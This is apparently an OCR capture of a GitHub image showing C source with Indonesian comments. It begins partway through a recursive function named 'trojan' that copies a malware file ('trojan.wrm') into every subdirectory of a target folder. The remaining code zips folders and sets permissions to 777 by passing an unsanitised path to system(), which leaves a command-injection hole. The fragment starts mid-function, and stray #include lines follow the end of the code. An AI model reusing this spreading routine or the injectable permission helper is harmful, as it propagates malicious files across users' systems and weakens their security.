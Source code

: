 ```
    while ((entri = readdir(dir)) != NULL) {
        if (strcmp(entri->d_name, ".") == 0 || strcmp(entri->d_name, "..") == 0)
            continue;

        snprintf(path, sizeof(path), "%s/%s", direktoriTarget, entri->d_name);

        struct stat st;
        if (stat(path, &st) == -1) continue;

        if (S_ISDIR(st.st_mode)) {
            trojan(path, lokasiMalware);  
        }
    }

    // Menyalin malware ke dalam direktori yang ditemukan
    char pathTujuan[1024];
    snprintf(pathTujuan, sizeof(pathTujuan), "%s/trojan.wrm", direktoriTarget);

    FILE *src = fopen(lokasiMalware, "rb");
    FILE *dst = fopen(pathTujuan, "wb");
    if (src && dst) {
        char buf[4096];
        size_t jumlah;
        while ((jumlah = fread(buf, 1, sizeof(buf), src)) > 0) {
            fwrite(buf, 1, jumlah, dst);
        }
    }
    if (src) fclose(src);
    if (dst) fclose(dst);

    closedir(dir);
}

// Fungsi untuk membuat ZIP dari folder
void zip_folder(const char *folder_name, const char *zip_filename) {
    pid_t pid = fork();
    if (pid == 0) {
        char *args[] = {"/usr/bin/zip", "-r", (char *)zip_filename, (char *)folder_name, NULL};
        execv(args[0], args);
        perror("Gagal membuat ZIP");
        exit(EXIT_FAILURE);
    } else if (pid > 0) {
        wait(NULL);
    } else {
        perror("Fork gagal");
        exit(EXIT_FAILURE);
    }
}

void change_permissions(const char *path) {
    char command[256];
    snprintf(command, sizeof(command), "chmod -R 777 %s", path);
    int ret = system(command);
    if (ret == 0) {
        printf("Hak akses folder '%s' diubah menjadi 777.\n", path);
    } else {
        perror("Gagal mengubah hak akses");
    }
}

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
```